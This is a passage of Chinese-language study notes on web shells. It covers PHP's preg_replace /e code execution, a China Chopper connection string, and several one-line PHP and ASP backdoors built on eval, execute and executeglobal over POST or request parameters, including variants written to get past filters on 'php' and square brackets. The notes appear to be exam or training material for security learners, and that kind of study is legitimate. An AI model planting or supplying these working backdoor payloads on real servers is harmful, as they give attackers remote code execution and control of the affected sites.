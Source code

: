 > preg\_replace():是一个执行一个正则表达式的搜索和替换
>
> ```php
> preg_replace( string|array $pattern,string|array $replacement,string|array $subject,
>     int $limit = -1,int &$count = null): string|array|null
> ```
>
> 第一个参数是模式串，第二个参数是替换的字符串，第三个是要进行替换的字符串。只不过第一个参数是一个正则表达式的模式串

正则表达式中/e是指将替换串也就是replacement中的字符串当做代码来执行。

{% hint style="info" %}
`菜刀连接时在配置栏添加<O>date=@eval($_POST[paxmac]);</O>`
{% endhint %}

#### 6）过滤php的一句话

```php
<?= @eval($_POST['x']);?>
```

#### 7)过滤\[]的一句话

```php
<?php @eval($_POST{'x'});?>
```

把\[]换成{}.





## <mark style="color:blue;background-color:green;">（2）ASP的一句话木马</mark>

资料都很少，这个语法可以不用学，就连网上的资料我都觉得讲的有点不知所云，直接记就可以了。知道是以<%开头%>结尾就行。

### <mark style="color:purple;background-color:yellow;">1）基本形态</mark>

```vbnet
<% eval request("123456")%>
<%eval(request("123456")%>
```

```vbnet
<% execute request("123456")%>
<% execute(request("123456")%>
```

```vbnet
<% executeglobal request("123456") %>
<% executeglobal(request("123456")%>
```

其他的感觉都不知道重不重要，因为感觉都没有怎么用这个玩意了，等考了再补充吧。


